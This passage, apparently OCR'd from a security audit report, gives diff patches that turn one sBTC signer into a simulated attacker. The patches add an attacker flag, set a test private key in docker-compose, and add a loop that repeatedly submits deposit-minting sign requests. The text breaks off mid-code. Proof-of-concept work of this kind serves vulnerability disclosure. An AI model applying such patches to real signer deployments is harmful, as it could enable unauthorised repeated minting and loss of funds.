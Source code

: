      impl Validatable for SignerConfig {
    ```
3.  Patch `signer/src/main.rs`, load attacker flag

    ```diff
         );
     
         // Load the configuration file and/or environment variables.
    -    let settings = Settings::new(args.config)?;
    +    let mut settings = Settings::new(args.config)?;
    +    std::thread::sleep(std::time::Duration::from_millis(2000)); // wait for the `docker logs` command
    +    settings.signer.audit_this_signer_is_attacker = match std::env::var("AUDIT_THIS_SIGNER_IS_ATTACKER") {
    +        Ok(value) => Some(value.parse::<bool>().unwrap()),
    +        _ => Some(false),
    +    };
    +    tracing::info!("@audit; audit_this_signer_is_attacker: {:?}", settings.signer.audit_this_signer_is_attacker);
         signer::metrics::setup_metrics(settings.signer.prometheus_exporter_endpoint);
     
         // Open a connection to the signer db.
    ```
4.  Patch `docker/docker-compose.yml`, add attacker flag

    ```diff
           - postgres-3
         environment:
           <<: *sbtc-signer-environment
    +      AUDIT_THIS_SIGNER_IS_ATTACKER: true
           SIGNER_SIGNER__DB_ENDPOINT: postgresql://postgres:postgres@postgres-3:5432/signer
           SIGNER_SIGNER__PRIVATE_KEY: 3ec0ca5770a356d6cd1a9bfcbf6cd151eb1bd85c388cc00648ec4ef5853fdb7401
           SIGNER_SIGNER__P2P__SEEDS: tcp://sbtc-signer-1:4122,tcp://sbtc-signer-2:4122
    ```
5.  Patch `signer/src/transaction_coordinator.rs`, add attack action

    ```diff
              if deposit_requests.is_empty() {
                  tracing::debug!("no stacks transactions to create, exiting");
                  return Ok(());
              }
     
              tracing::debug!(
                  num_deposits = %deposit_requests.len(),
                  "we have deposit requests that have been swept that may need minting"
              );
              // We need to know the nonce to use, so we reach out to our stacks
              // node for the account information for our multi-sig address.
              //
              // Note that the wallet object will automatically increment the
              // nonce for each transaction that it creates.
              let account = stacks.get_account(wallet.address()).await?;
              wallet.set_nonce(account.nonce);
     +        // @audit; start
     +        tracing::info!("@audit; repeated sumbit start");
     +        for req in deposit_requests.clone() {
     +            let outpoint = req.deposit_outpoint();
     +            let sign_request_fut =
     +                self.construct_deposit_stacks_sign_request(req, bitcoin_aggregate_key, &wallet);
     +
     +            let (sign_request, multi_tx) = match sign_request_fut.await {
     +                Ok(res) => res,
     +                Err(error) => {
     +                    tracing::error!(%error, "could not construct a transaction completing the deposit request");
     +                    continue;